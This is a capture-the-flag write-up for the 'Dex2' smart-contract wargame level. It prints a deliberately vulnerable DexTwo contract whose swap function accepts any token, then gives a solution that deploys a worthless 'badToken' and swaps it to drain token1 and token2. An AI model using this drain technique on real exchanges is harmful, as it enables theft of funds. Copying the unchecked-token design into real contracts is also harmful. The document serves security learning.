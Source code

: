 # Level 23 - Dex2

### Objective

The objective of this level is as follows:

1. This level will ask you to break DexTwo, a subtlely modified Dex contract from the previous level, in a different way.
2. You need to drain all balances of token1 and token2 from the DexTwo contract to succeed in this level.
3. You will still start with 10 tokens of token1 and 10 of token2. The DEX contract still starts with 100 of each token.

### Contract

```
// SPDX-License-Identifier: MIT
pragma solidity ^0.6.0;

import "@openzeppelin/contracts/token/ERC20/IERC20.sol";
import "@openzeppelin/contracts/token/ERC20/ERC20.sol";
import '@openzeppelin/contracts/math/SafeMath.sol';
import '@openzeppelin/contracts/access/Ownable.sol';

contract DexTwo is Ownable {
  using SafeMath for uint;
  address public token1;
  address public token2;
  constructor() public {}

  function setTokens(address _token1, address _token2) public onlyOwner {
    token1 = _token1;
    token2 = _token2;
  }

  function add_liquidity(address token_address, uint amount) public onlyOwner {
    IERC20(token_address).transferFrom(msg.sender, address(this), amount);
  }

  function swap(address from, address to, uint amount) public {
    require(IERC20(from).balanceOf(msg.sender) >= amount, "Not enough to swap");
    uint swapAmount = getSwapAmount(from, to, amount);
    IERC20(from).transferFrom(msg.sender, address(this), amount);
    IERC20(to).approve(address(this), swapAmount);
    IERC20(to).transferFrom(address(this), msg.sender, swapAmount);
  }

  function getSwapAmount(address from, address to, uint amount) public view returns(uint){
    return((amount * IERC20(to).balanceOf(address(this)))/IERC20(from).balanceOf(address(this)));
  }

  function approve(address spender, uint amount) public {
    SwappableTokenTwo(token1).approve(msg.sender, spender, amount);
    SwappableTokenTwo(token2).approve(msg.sender, spender, amount);
  }

  function balanceOf(address token, address account) public view returns (uint){
    return IERC20(token).balanceOf(account);
  }
}

contract SwappableTokenTwo is ERC20 {
  address private _dex;
  constructor(address dexInstance, string memory name, string memory symbol, uint initialSupply) public ERC20(name, symbol) {
        _mint(msg.sender, initialSupply);
        _dex = dexInstance;
  }

  function approve(address owner, address spender, uint256 amount) public returns(bool){
    require(owner != _dex, "InvalidApprover");
    super._approve(owner, spender, amount);
  }
}
```

### Solution

Solution inspired by [Naveen](https://dev.to/nvn):

```
pragma solidity ^0.8.0;

import "@openzeppelin/contracts/token/ERC20/ERC20.sol";

contract badToken is ERC20 {
    constructor(uint256 initialSupply) ERC20("Badicious", "BAD") {
        _mint(msg.sender, initialSupply);
    }
}
```

Get the token addresses:

```
badTokens = '<BAD-token-address>'
t1 = await contract.token1()
t2 = await contract.token2()
```

Drain all tokens from `token1` and `token2`:

```
await contract.swap(badTokens, t1, 100)
await contract.swap(badTokens, t2, 200)
```

Done!
